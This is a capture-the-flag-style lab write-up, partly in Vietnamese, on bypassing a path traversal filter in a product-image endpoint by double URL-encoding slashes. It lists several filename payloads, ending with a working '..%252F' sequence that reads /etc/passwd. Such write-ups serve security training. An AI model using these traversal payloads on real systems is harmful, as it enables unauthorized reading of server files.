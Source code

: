 # **Lab: File path traversal, traversal sequences stripped with superfluous URL-decode**

>  This lab contains a path traversal vulnerability in the display of product images.  
>  The application blocks input containing path traversal sequences. It then performs a URL-decode of the input before using it.  
>  To solve the lab, retrieve the contents of the `/etc/passwd` file.  

# **Solution**

```
filename=/etc/passwd
```

```
filename=....//....//....//etc//passwd
```

Cả 2 cách trên đều không hoạt động do lần này ứng dụng đã chặn toàn bộ đầu vào chứa `/`.  
Lần này sẽ bypass bằng cách mã hóa các ký tự đó:

Có thể sử dụng web cyberchef để URL encode `/`:

```
/ -> %2F
filename=..%2f..%2f..%2f..%2fetc/passwd
```

Nó vẫn không hoạt động, có thể ứng dụng cũng chặn các ký tự đặc biệt như % hoặc đã có bước decode trước khi đưa vào flter. Vậy hãy thử encode thêm lần nữa:

```
%2F -> %252F
filename=..%252F..%252F..%252F..%252Fetc/passwd
```

Nice~~ Done~~ 